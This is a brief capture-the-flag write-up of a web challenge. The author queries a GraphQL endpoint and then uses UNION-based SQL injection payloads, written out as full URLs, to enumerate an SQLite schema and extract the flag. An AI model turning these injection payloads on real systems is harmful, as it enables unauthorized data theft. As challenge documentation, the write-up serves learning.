




# 0x41414141 CTF


## Details:
I would rate this challenge medium. I learnt some new shit about Graphql.


# Write-Up:


When I first opened the page it popped me up with a scene with the option to input. However, when I enter anything, it always alerts me with the message: sorry but this functionality is disabeled due to technical problems!




After that I checked open source and found something very interesting! 



Here we can notice `/graphql?query`. I wasn’t familiar with this thing so I googled and found some payload that I modified a bit and eventually got this: 

```
http://207.180.200.166:8080/graphql?query={allNotes{edges{node{id,uuid,title,authorId,body}}}}
```

After I entered it, I was shown a table showing the flag. However, it was a fake flag.




``` 
Fake Flag: CUCTF{graphql_d3f1n1tely_1s_the_futur30985} 
```

After a long time of digging and trying, I tried SQL injection around which I threw a lot. Finnaly I got the final from and it was union:

```
http://207.180.200.166:8080/graphql?query={ getNote(q: "2'AND 1=2 UNION SELECT NULL, name, 1, 1 FROM sqlite_master --") { id }}
```

After this entry, we came across 4 types of data, one of which stood out and was in a different language (Arabic). I knew right away that the flag had to be there.




So we just put this Arabic word instead of sql-master and we got the final payload which looked like this:

```
http://207.180.200.166:8080/graphql?query={ getNote(q: "2' AND 1=2 UNION SELECT id, flag, 1,1 FROM العلم --") { id } }
```


And with this we got the final result and the flag!

```
FLAG: flag{h0p3_u_can't_r3@d_1t9176}
```
